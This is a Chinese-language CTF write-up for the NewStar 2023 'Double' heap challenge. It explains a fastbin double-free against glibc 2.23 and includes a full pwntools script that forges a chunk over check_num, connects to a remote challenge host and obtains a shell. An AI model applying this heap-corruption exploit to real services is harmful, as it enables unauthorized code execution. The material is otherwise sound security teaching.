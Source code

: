 ```yaml
---
title: newstar2023 week4 - Double
date: 2023/10/17 12:00:00
tags:
    - heap - fastbin
    - House of Spirit
thumbnail: /assets/newstar2023/doubleFree.png
excerpt: 利用fastbin double free漏洞伪造堆块，实现shell获取。
---
```


## 文件分析

下载`Double`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

堆入门题，打开了我学习堆的大门

题目要求`check_num[2] = 0x666`就可以给shell，由于目标libc是2.23，
所以可以直接利用fastbin的double free，伪造一个块到check_num上
（size已经帮我们伪造好了）

## 前置知识

fastbin double free由于检查少，因此较为简单，但是仍要注意：
必须隔一个释放，且必须把需要伪造的块头处理好

![double free legend](/assets/newstar2023/doubleFree.png)

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29665)

def add(idx:int, con:bytes=b'what'):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(con)

def rem(idx:int):
    sh.recvuntil(b'>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def chk():
    sh.recvuntil(b'>')
    sh.sendline(b'3')

add(0)
add(1)
rem(0)
rem(1)
rem(0)

add(0, p64(0x602060)) # fd override (chunk 0 now points to fake chunk)
add(1)
add(2)

add(3, p64(0x666)) # fake chunk allocated
chk()
sh.interactive()
```

Done.
